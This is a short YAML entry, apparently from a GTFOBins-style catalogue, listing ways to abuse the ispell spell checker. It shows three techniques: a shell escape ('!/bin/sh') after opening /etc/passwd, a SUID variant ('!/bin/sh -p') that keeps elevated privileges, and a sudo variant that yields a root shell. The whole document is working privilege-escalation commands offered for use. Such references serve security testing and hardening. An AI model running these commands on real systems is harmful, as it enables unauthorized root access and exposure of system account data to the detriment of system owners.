 functions:
  shell:
    - code: |
        ispell /etc/passwd
        !/bin/sh
  suid:
    - code: |
        ./ispell /etc/passwd
        !/bin/sh -p
  sudo:
    - code: |
        sudo ispell /etc/passwd
        !/bin/sh
---
